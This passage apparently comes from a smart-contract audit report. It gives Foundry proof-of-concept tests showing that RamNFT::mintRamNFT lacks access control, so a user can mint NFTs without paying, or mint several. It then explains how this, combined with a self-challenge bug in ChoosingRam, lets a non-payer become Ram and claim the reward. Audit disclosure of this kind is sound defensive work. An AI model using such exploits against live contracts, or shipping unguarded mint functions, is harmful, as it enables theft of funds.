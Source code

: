 ```js
    vm.startPrank(player1);
    // the user who is not in the contest executes mintRamNFT function
    ramNFT.mintRamNFT(player1);
    vm.stopPrank();

    // the NFT is minted successfully
    assertEq(ramNFT.ownerOf(0), player1);
}
```

The next code demonstrates how the users can even mint multiple NFTs which can further be used so that the user became Ram.

```js
function test_userCanMintMultipleNFTs() public {
    Dussehra dussehra;
    RamNFT ramNFT;
    ChoosingRam choosingRam;
    address organiser = makeAddr("organiser");
    address player1 = makeAddr("player1");

    vm.startPrank(organiser);
    ramNFT = new RamNFT();
    choosingRam = new ChoosingRam(address(ramNFT));
    dussehra = new Dussehra(1 ether, address(choosingRam), address(ramNFT));
    ramNFT.setChoosingRamContract(address(choosingRam));
    vm.stopPrank();

    vm.startPrank(player1);
    vm.deal(player1, 1 ether);
    // the user enters the contest
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    // after this the user will have a legit RamNFT

    // but he can also mint another RamNFT
    ramNFT.mintRamNFT(player1);
    vm.stopPrank();

    // we can see that both RamNFTs belong to the same user
    assertEq(ramNFT.ownerOf(0), ramNFT.ownerOf(1));
}
```

## Impact

The missing check for who can execute `RamNFT::mintRamNFT` breaks the logic of the contract. Further, due to another vulnerability with a different root cause (the `ChoosingRam::increaseValuesOfParticipants` function does not check if the challenged user is the same as the challenger) the users will be able to challenge themselves and easily to become Ram. Even if the other vulnerability is fixed, the reported in this finding is still valid. It allows user who has not paid the entrance fee to become Ram and to get the Ram reward.
